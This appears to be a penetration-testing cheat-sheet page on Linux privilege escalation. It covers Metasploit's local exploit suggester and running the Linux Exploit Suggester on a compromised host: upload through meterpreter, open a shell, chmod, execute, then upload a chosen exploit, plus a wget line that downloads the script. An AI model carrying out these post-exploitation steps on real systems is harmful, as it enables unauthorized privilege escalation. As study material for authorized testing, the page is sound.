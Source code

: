 # Linux

## Metasploit post modules

Scanning privli escalation vulnera

<pre><code><strong>meterpreter> run post/multi/recon/local_exploit_suggester
</strong></code></pre>

| Command            | Description                  |
| ------------------ | ---------------------------- |
| `getprivs`         | see what privileges we have  |
| <kbd>sysinfo</kbd> | information about the system |

## &#x20;LES

LES tool is designed to assist in detecting security deficiencies for a given Linux kernel/Linux-based machine. It provides following functionality:

### **How to use**

{% stepper %}
{% step %}
### Opening temp directory

```bash
cd /tmp
```
{% endstep %}

{% step %}
### Uploading LES

```bash
meterpreter > upload <stored location/script.sh>  
```
{% endstep %}

{% step %}
### Opening shell&#x20;

```
meterpreter > shell
```
{% endstep %}

{% step %}
### Better shell

```
/bin/bash -i
```
{% endstep %}

{% step %}
### Give executable permissions

```bash
chmod +x <file>
```
{% endstep %}

{% step %}
### Execute

```bash
./file.sh
```
{% endstep %}

{% step %}
### After  results select vulnerability

Open website vulnerability and follow guide how to use it and may need to upload it to the target:Imporant always when uploading file we need to give execute perms and run it with ./file
{% endstep %}
{% endstepper %}

{% embed url="https://github.com/The-Z-Labs/linux-exploit-suggester" %}

### &#x20;Quick download

```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

## Cron jobs

